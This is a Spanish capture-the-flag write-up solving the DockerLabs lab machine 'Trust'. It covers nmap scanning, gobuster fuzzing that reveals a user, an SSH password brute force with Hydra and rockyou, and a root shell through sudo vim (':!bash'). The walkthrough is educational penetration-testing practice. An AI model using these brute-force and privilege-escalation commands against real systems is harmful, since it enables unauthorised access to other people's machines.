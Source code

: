 
# Trust - Resolviendo la Máquina

## Introducción
Hola, bienvenidos y bienvenidas. Vamos a resolver una máquina de la plataforma DockerLabs llamada **Trust**. A continuación, verás paso a paso cómo se resuelve. ¡Que te diviertas!

---

## Iniciando la Máquina
### Comprobando Conexión
Hacemos un ping a la máquina para comprobar la conexión:

```bash
ping 172.18.0.2
```

---

## Escaneo de Puertos
Utilizamos `nmap` con la IP proporcionada por DockerLabs para ver los puertos abiertos:

```bash
sudo nmap -p- –open -sS –min-rate 5000 -vvv -n -Pn 172.18.0.2
```

Resultados relevantes:
- Puerto **22** (SSH) abierto.
- Puerto **80** (HTTP) abierto.

---

## Análisis del Sitio Web


![login](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/debian-web.png)




Accedemos al sitio en el navegador y vemos que es la página por defecto de Apache2. No encontramos nada interesante, así que seguimos con más pruebas.

### Fuzzing con Gobuster
Ejecutamos Gobuster para encontrar directorios y archivos ocultos:

```bash
gobuster dir -u "http://172.18.0.2/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak
```

Explicación:
- `dir` → Escaneo de directorios y archivos.
- `-u` → URL objetivo (`http://http://172.18.0.2`).
- `-w` → Lista de palabras con nombres comunes de directorios/archivos.
- `-x` → Prueba archivos con extensiones específicas.

Descubrimos un archivo **/secret.php**. Nos dirigimos a él en el navegador con:

```bash
http://http://172.18.0.2//secret.php
```

Este archivo nos revela que existe un usuario llamado **Mario**.

![login](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/hola-mario.png)




---

## Ataque de Fuerza Bruta con Hydra
Dado que conocemos el usuario **Mario**, realizamos un ataque de fuerza bruta con Hydra sobre el puerto SSH:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 4
```

Explicación:
- `-l mario` → Usuario objetivo.
- `-P /usr/share/wordlists/rockyou.txt` → Lista de contraseñas a probar.
- `ssh` → Servicio objetivo (SSH).
- `-t 4` → Usa 4 hilos para acelerar el ataque.

Hydra nos da la contraseña **chocolate**.

Nos conectamos por SSH con:

```bash
ssh mario@172.18.0.2
```

---

## Escalada de Privilegios
Ya dentro de la máquina como Mario, buscamos formas de escalar privilegios.

Ejecutamos:

```bash
sudo -l
```

Descubrimos que podemos ejecutar **/usr/bin/vim** con privilegios elevados. Buscamos en GTFOBins y encontramos que podemos obtener una shell de root con el siguiente comando:

```bash
sudo vim -c ':!bash'
```

Verificamos con:

```bash
whoami
```

¡Ahora somos **root**!

---

¡Máquina resuelta!


